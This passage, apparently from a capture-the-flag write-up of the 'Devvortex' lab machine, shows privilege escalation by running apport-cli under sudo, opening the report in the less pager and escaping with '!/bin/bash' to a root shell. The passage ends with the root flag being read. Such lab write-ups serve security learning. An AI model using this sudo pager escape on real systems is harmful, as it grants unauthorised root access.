 That’s enough to generate a report:

```

logan@devvortex:/dev/shm$ sudo apport-cli -c ./example.crash 
*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (0.0 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C):

```

#### View and Escape

Regardless of how I got to this menu, here I’ll enter “V”:

```

What would you like to do? Your options are:
  S: Send report (0.0 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C):

```

At this menu, I can select “V” to get back into `less`. It takes a minute generating a report depending on the report size. Once it’s done, it opens in `less`:

![image-20240423170454738](/img/image-20240423170454738.png)

To escape from `less`, I’ll type `!/bin/bash`, and I’m dropped to a root shell:

```

root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)

```

And I’ll grab the root flag:

```

root@devvortex:~# cat root.txt
79bd5241************************

```